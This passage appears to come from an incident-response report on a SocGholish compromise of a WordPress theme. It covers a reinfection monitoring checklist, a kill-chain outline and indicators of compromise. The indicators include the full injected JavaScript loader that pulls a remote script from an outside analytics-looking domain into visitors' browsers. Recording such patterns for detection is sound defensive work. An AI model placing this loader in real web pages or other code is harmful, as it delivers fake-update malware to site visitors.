 ### 9. Monitor for Reinfection

**Daily for next 7 days:**
- Check `server_monitor_log.txt`
- Scan main.js manually
- Check file modification times
- Review WordPress user list

**Weekly after that:**
- Full security scan
- Review access logs
- Check for suspicious activity

---

## Technical Deep Dive - For Analysis

### SocGholish Kill Chain

```
1. Initial Compromise
   └─> WordPress admin credentials stolen (Oct 24)

2. Backdoor Installation
   └─> PHP backdoor injected (location unknown)

3. Persistence
   └─> Multiple reinfections (Oct 27, 28)

4. SocGholish Injection (Oct 28)
   └─> main.js modified via backdoor/theme editor

5. Payload Delivery
   └─> Visitor browsers load content-website-analytics.com

6. Fake Update Display
   └─> JavaScript shows browser update popup

7. Malware Download
   └─> Victims download and execute fake update

8. Post-Infection
   └─> Ransomware, info-stealers, or other malware
```

### Indicators of Compromise (IOCs)

**File-Based IOCs:**
```
File: wp-content/themes/mpa-custom/js/main.js
Hash (before cleanup): [calculate if needed]
Modified: 2025-10-28 06:02:23 UTC
Pattern: ;(function(f,i,u,w,s){w=f.createElement(i);s=f.getElementsByTagName(i)[0];w.async=1;w.src=u;s.parentNode.insertBefore(w,s);})(document,'script','https://content-website-analytics.com/script.js');
```
